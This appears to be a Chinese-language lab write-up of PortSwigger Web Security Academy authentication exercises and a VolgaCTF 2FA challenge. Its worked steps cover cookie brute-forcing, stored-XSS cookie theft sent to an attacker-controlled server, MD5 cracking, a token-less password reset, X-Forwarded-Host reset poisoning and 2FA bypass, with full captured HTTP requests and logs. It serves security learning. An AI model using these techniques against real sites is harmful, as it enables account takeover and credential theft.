    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Referer: https://ac221fbd1ed0d8ecc09931f2001900e1.web-security-academy.net/login
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

	其中的cookie中的stay-logged-in标识就是上述公式生成的，可以直接跳过登录界面，而用GET /account的请求直接爆破carlos的密码，访问其账户。

实现：
	1.将GET /account请求发送给intruder，将cookie中的stay-logged-in标识作为爆破点
	2.在payload process中增加以下操作：
		Hash: MD5
		Add prefix: carlos:
		Encode: Base64-encode
	3.执行爆破，完成。

小结：之所以能够直接直接用GET /account请求进行爆破，是因为该网站的辅助功能stay-log-on，存在网页session关闭后仍然可以保留登录状态，因此，破解了cookie的生成公式，就可以访问用户账户。

即使攻击者不能够创造他们自己的账户，他们也可能利用这个漏洞。**采用普通的技术，如XSS，攻击者可能盗取另一个用户的“remember me”cookie，然后破解这个cookie的生成公式。如果这个网站采用开源的框架构建，cookie生成的密钥细节可能是有公开说明的。**

在一些少数情况下，也可能从cookie中获取用户明文的的真实密码，即使cookie本身进行了哈希编码。常用的密码列表的哈希版本在网上都能得到，故如果一个用户的密码出现在列表中，将哈希发送到搜索引擎中就可以将哈希解码，下面的靶场阐述salt在有效加密中的重要性。

####lab2离线密码破解####
靶场中，将用户的密码存在cookie中。该靶场在评论功能里包含一个XSS漏洞。突破该靶场，需要获取Carlos的stay-logged-in的cookie然后解码出password。然后访问carlos的账户。提供一个用户名和密码wiener:peter

分析：
	1.和lab1一样，cookie的生成方式为：Base64(username+MD5(password))
	2.评论功能中存在存储型XSS漏洞，通过该漏洞，可以输出用户的cookie值
	3.对cookie进行解码，得到password

实现：

	1.用提供wiener：peter登录，选择stay-logged-in，不让拍抓包得到cookie
	2.将cookie用base64解码得到wiener:51dc30ddc473d43a6011e9ebba6ca770，浏览器搜索crackstation，将密文进一步输入破解，显示MD5解密，明文为peter
	3.log out。然后进入评论功能，评论框中输入,点击发布，验证XSS漏洞
	4.然后在评论框中输入弹出cookie的脚本：，填入想要显示结果的server地址，发布评论
	5.点击访问评论，在检查显示结果的server中的访问日志，发现以下内容：180.171.95.11   2022-04-24 08:20:33 +0000 "GET /stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36"
	6.将cookie用base64解码得到carlos:26323c16d5f4dabff3bb136f2460a943，刚好是carlos的信息，再次用crackstation，将密文进一步输入破解，显示MD5解密，明文为onceuponatime，完成。

###3.2重置密码###

现实中，用户常常忘记密码，故重置密码功能很常见。由于常用的基于密码的认证机制不适用于这种场景， 网站必须以来代替的方法来保证真正的用户来重置密码。基于这个原因，密码重置的功能本身就很危险，需要安全地实现。通常有集中不同的方式来实现，也带来了不同程度的漏洞。

####通过邮件发送密码####
如果网站一开始就能安全地处理密码，它不可能将当前的密码发送给用户。相反，一些网站生成一个新密码，并通过电子邮件发送给用户。

一般来说，要避免通过不安全的通道发送持久密码。在这种情况下，安全性要么依赖于生成的密码在一个较短时间后会过期，要么依赖于用户能够立刻修改密码。否则这种方法很容易收到中间人的攻击。

邮件通常不认为是安全的，因为邮箱是持久的，并且不是真正为机密信息的安全存储设计的。很多用户也会通过不安全的通道自动将邮箱同步到多个设备上。

####采用URL重置密码####
一个更具鲁棒性的重置密码的方法是通过将唯一的URL发送给用户，引导用户到密码重置页面。这种方法不安全的实现的时候，可能采用可以猜到的参数构建URL，来区别哪个账户正在被重置密码，例如：

	http://vulnerable-website.com/reset-password?user=victim-user

在这个例子中，一个攻击者能够根据已经掌握的用户名来改变user这个参数。攻击者就能够直接进入密码重置页面，然后将任意用户的密码进行修改。

一种更高明的实现方法是产生一个高熵的难以猜测的token，并基于这个token产生重置密码的URL。在最优情况下，URL应该不提供任何有关被重置的用户密码的提示。如以下的URL:

	http://vulnerable-website.com/reset-password?token=a0ba0d1cb3b63d13822572fcff1a241895d893f659164d4cc550b421ebdd48a8

当用户访问这个URL,系统应该检查这个token是否在后端存在，如果存在，该用户的密码才能够被重置。这个token应当在一小段时间后失效，并且密码重置后要立即摧毁。然而，当重置密码的表格提交后，有些网站无法再次验证token。在这种情况下，攻击者能够在他自己的账户中直接访问重置密码的页面，然后删除这个token，进而利用该页面重置任意用户的密码。

####lab3密码重置逻辑错误####
靶场中，重置密码功能有漏洞，提供一个用户名和密码wiener:peter，要求删除carlos的密码，并访问他的账户。

实现：

	1.进入网站，选择忘记密码，输入用户名wiener
	2.在wiener的邮箱中收到重置密码的link
	3.点击link，按照要求输入新的密码，发送请求。
	4.通过burp抓包，发现请求如下：
	POST /forgot-password?temp-forgot-password-token=lfrdGYhsEqU9KdUcCK4LIWiKBcNWB7D7 HTTP/1.1
    Host: ac061f4e1fb003f9c0a11d7000400068.web-security-academy.net
    Cookie: session=MCSlkVBJFDdST9HkKknQhLA9Sr3ldFB6
    Content-Length: 113
    Cache-Control: max-age=0
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Origin: https://ac061f4e1fb003f9c0a11d7000400068.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://ac061f4e1fb003f9c0a11d7000400068.web-security-academy.net/forgot-password?temp-forgot-password-token=lfrdGYhsEqU9KdUcCK4LIWiKBcNWB7D7
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    
    temp-forgot-password-token=lfrdGYhsEqU9KdUcCK4LIWiKBcNWB7D7&username=wiener&new-password-1=111&new-password-2=111

	5.发现请求中有个重置密码token以及以及一个隐藏的用户名wiener，这时候发现，如果将token的参数删除，重发请求，也是能够成功修改用户wiener的密码的，这说明服务其没有对token进行检测，而且用户名由前端指定的话，是存在漏洞的。故可以将username改为carlos，重发请求，则可以改变carlos的密码
	6.用修改后的密码登录carlos账户，完成。

如果重置密码的URL是动态生成的话，也有可能导致密码重置漏洞，如以下靶场。

####lab4通过中间件密码重置####
靶场说明：用户carlos不小心点击了email中收到的link。提供一个用户名和密码wiener：peter，以及该用户的邮箱，要求登录carlos的账户。

实现：

	1.选择忘记密码，通过burp抓包，研究密码重置功能。观察到，密码重置是通过发送一个唯一的包含重置功能的token到邮箱中。
	2.POST /forgot-password的请求如下：
	POST /forgot-password HTTP/1.1
    Host: ac251fa91f63f98cc0f53863000b00a8.web-security-academy.net
    Cookie: session=albqMK1STqZJePGMSmJREyFBDYaXZHmh
    Content-Length: 15
    Cache-Control: max-age=0
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Origin: https://ac251fa91f63f98cc0f53863000b00a8.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://ac251fa91f63f98cc0f53863000b00a8.web-security-academy.net/forgot-password
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    
    username=wiener
	将该请求发送到Repeater。通过研究该请求，注意到，X-Forwarded-Host的报头是支持的，故可以通过这种方式将动态生成的reset link指向任意的域。
	3.登录wiener的邮箱，收到重置密码的link。经过分析，重置密码的原理是，服务器收到POST /forgot-password的请求后，发送一个包含token的link，然后用户用该link重置密码，关键是拿到token。
	4.记录下攻击者的服务器URL
	5.将POST /forgot-password的请求进行修改，添加X-Forwarded-Host的报头：
	X-Forwarded-Host: your-exploit-server-id.web-security-academy.net
	6.请求中的用户名参数改为carlos，即发送以下请求：
    POST /forgot-password HTTP/1.1
    Host: accc1fbf1e96526cc0518046004100a9.web-security-academy.net
    Cookie: session=87Nncl5zfDrHYhxCdHN4It5KGDJ4K56L
    Content-Length: 15
    Cache-Control: max-age=0
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Origin: https://accc1fbf1e96526cc0518046004100a9.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://accc1fbf1e96526cc0518046004100a9.web-security-academy.net/forgot-password
    X-Forwarded-Host: exploit-aceb1f6c1e4a5215c02180da01f20002.web-security-academy.net
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    
    username=carlos

	7.在攻击者的服务器中即可接受到重置密码的token，发现一个特殊ip，发送了token：

	172.31.30.82    2022-04-27 03:14:51 +0000 "GET /forgot-password?temp-forgot-password-token=dB4GTR5jLD3lRSPZPOYLeeI0By8b1x6S HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"

	8.拿到token后替换重置密码的link中的token，访问该link，即可重置carlos密码，之后登录carlos账户，完成。

小结：重置密码的功能请求中，支持X-Forwarded-Host的使用，改变的重置密码的link的目的地，导致漏洞。X-Forwarded-Host的作用是重写请求头信息，让被代理的服务器能够获取请求来源的真实域名和真实IP，在这里服务器误认为攻击者的域名为原始的请求来源。

####此处有个密码重置中毒的引申学习，包含三个靶场，可以扩展####

###修改用户密码###
通常，修改密码包括两步骤：输入当前密码，然后输入新密码。该功能会检查用户名和当前密码是否匹配，和登录过程一样。因此，有可能受到类似的攻击。

当允许攻击者无需处于受害者的登录状态而可以直接访问的时候，修改密码功能是相当危险的。例如，当用户名被隐藏提供了，攻击者可能能够修改请求中的这个参数，改为任意的用户。这可以用于枚举用户名和爆破密码。

####lab5通过修改密码功能进行爆破密码####
靶场中的修改密码功能有爆破的风险。提供一个用户名和密码wiener:peter,以及一个密码字典，要求访问carlos的账户。

	1.用wiener：peter登录，选择修改密码
	2.按照要求需要输入当前密码，新密码以及确认新密码三个框，发现当用户输入错误的密码时候，若两次输入的新密码匹配，则用户被锁住，自动推出；若两次新密码不匹配时候，网站只是简单反馈当前密码不正确。当用户输入正确的当前密码，但是两次输入的新密码不匹配，则提示新密码不匹配。因此，可以用这个方法爆破密码。
	3.burp抓包，抓取POST /my-account/change-password请求如下：
	POST /my-account/change-password HTTP/1.1
    Host: acf51f261e6cb580c0e09eeb004800bd.web-security-academy.net
    Cookie: session=SZ3i5TchPcuCJGyhHkaYlp8LwPzbS6KU
    Content-Length: 76
    Cache-Control: max-age=0
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Origin: https://acf51f261e6cb580c0e09eeb004800bd.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://acf51f261e6cb580c0e09eeb004800bd.web-security-academy.net/my-account
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    
    username=wiener&current-password=peter&new-password-1=111&new-password-2=111

	4.用这个请求进行爆破，将用户名参数改为carlos，当前密码用字典，两次输入的新密码使用不匹配的两个密码，爆破密码，得出结果，完成。

###拓展练习###
####1.VolgaCTF 2022:2FA####
题目给出一个管理员登录口令admin:admins,但是不知道双因素认证的口令，要求登录admin账户。

	1.开启题目，显示发起GET /login/请求，需要输入用户名密码，界面如下：

	在代码中发现，regist字样，如下：

	2.进入/register网址，是注册页面，首先输入用户名和密码进行注册：

	3.然后输入第二步验证的口令进行注册，界面如下：

	输入第二步验证口令，发送POST /login/set_phrase请求，

	4.分析该流程，第一步登录可以用题目自带的口令通过，对流程中出席那的cookie进行分析，如：Cookie: session=eyIyZmEiOmZhbHNlLCJ1c2VybmFtZSI6IkFBQUJCQiJ9.YoGeFw.EAGx34S-kdnooMXgKwHeDPsuahQ
	第一部分为base64编码，解码后为：{"2fa":false,"username":"AAABBB"}，后面两部分不清楚编码，无法破解。
	5.尝试将编码中的false改为true，用户名改为admin，重新编码修改cookie，进行admin第二步登录，假装已经完成2fa认证。尝试后发现不对，看来后面的编码中包含了有用的信息。
	6.利用重置功能突破第二步口令：首先用admin:admins通过第一步，然后重发GET /login/set_phrase请求，将其中的cookie的username改为admin，假装是admin在设置口令，然后输入自己的口令，完成登录。
	7.小结：利用重置口令功能，伪装用户在重置口令。

1.CVE-2022-1388--F5 BIG-IP icontrol REST身份认证绕过漏洞  网络安全联盟站
2.CVE-2022-29266 Apache Apisix jwt-auth插件 密钥泄露-先知社区